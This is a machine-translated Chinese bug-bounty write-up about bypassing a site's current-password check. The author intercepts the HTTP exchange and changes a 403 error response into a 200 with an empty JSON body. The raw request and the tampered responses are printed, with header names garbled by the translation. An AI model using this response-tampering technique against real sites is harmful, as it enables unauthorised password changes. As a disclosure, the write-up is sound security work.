


# 我如何绕过当前的密码验证

> 原文：<https://infosecwriteups.com/how-i-bypassed-current-password-verification-bfa9d8c3f471?source=collection_archive---------1----------------------->

大家好，我是苏菲扬·古丽，今天我将告诉你们我是如何绕过密码验证的

在测试期间，我在密码更改功能中观察到，在我们输入当前(旧)密码之前，该网站不允许输入新密码，因此我在这里开始测试响应操作。

**步骤**

1:输入随机密码并在打嗝时捕获此请求

POST/User-management/auth HTTP/1.1【abc.target.com】主机:T2
用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64rv:79.0)壁虎/20100101 火狐/79.0
接受:*/*
接受-语言:en-US，en；q=0.5
推荐人:https://www.target.com/users/profile/password
授权:无记名<令牌>
内容类型:应用/json
来源:https://www.target.com
内容长度:57
连接:关闭

{ "登录":"[user@gmail.com](mailto:user@gmail.com)，"密码":" randompassword"}

2:捕捉响应

**原始响应**:

HTTP/1.1 403 禁止
日期:2020 年 8 月 3 日星期一 20:51:39 GMT
内容类型:application/JSON；charset = " utf-8 "
Content-Length:96
连接:关闭

..

..

{"type": "HTTPError "，" traceback": null，" message": "HTTP 403:禁止(无效凭据)" }

**更改了我在输入正确密码后收到的正确响应:**

HTTP/1.1 200 OK
..
..
{“成功”:真}

并且转发了响应却失败了？？

现在……

我再次复制了相同的步骤，但是现在我发送的是空的 JSON **" {}"** ，而不是 **{"success": true}**

**最终变更响应**

HTTP/1.1 200 OK
日期:2020 年 8 月 3 日星期一 20:51:39 GMT
内容类型:application/JSON；charset = " utf-8 "
Content-Length:96
连接:关闭

..

..
{}

转发响应> >**成功绕过😍**

**永不放弃！！！**

举报和奖励金额

希望这对你有帮助。

联系我:

[Linkedin](http://linkedin.com/in/sufiyan-gouri-7a73a8180):[sufiyan-gouri-7a 73 a 8180](http://linkedin.com/in/sufiyan-gouri-7a73a8180)

[推特](https://twitter.com/gouri_sufyan) : @gouri_sufyan